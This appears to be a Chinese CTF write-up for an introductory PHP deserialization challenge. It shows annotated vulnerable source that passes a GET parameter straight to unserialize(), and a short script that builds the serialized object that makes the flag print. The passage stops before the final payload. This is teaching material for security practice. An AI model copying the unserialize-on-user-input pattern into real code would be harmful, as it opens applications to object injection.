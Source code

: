 ![image-20231102102951288](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231102102951288.webp) 

**相关解释**

```php
<?php
 
error_reporting(0);      					#通过error_reporting屏蔽报错
show_source("cl45s.php"); 					#将c145s.php的代码显示到页面上
 
class wllm{               					#定义了一个wllm类
 
    public $admin;      				 	#公共变量admin
    public $passwd;       					#公共变量passwd
 
    public function __construct(){		 	 #construct当类创建时调用
        $this->admin ="user";    			 #指定admin的值为user
        $this->passwd = "123456";			 #指定passwd的值为123456
    }
 
        public function __destruct(){ 		#destruct当对象要销毁时调用
        
        if($this->admin === "admin" && $this->passwd === "ctf"){  
 #if判断 admin的值是不是admin passwd的值是不是ctf
            
            include("flag.php"); 			 #include包含flag 当if判断成立时执行
            echo $flag;          			 #输出flag     
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}
 
$p = $_GET['p'];   							#get方法获取p并赋值
unserialize($p);   							#对p进行反序列化
?>

```

 **接下来就可以简单构造一下反序列化**

```
<?php
class wllm{
        public $admin="admin";
        public $passwd="ctf";
    }
    echo serialize(new wllm());
?>
```

**得到一个被反序列化后的值   **
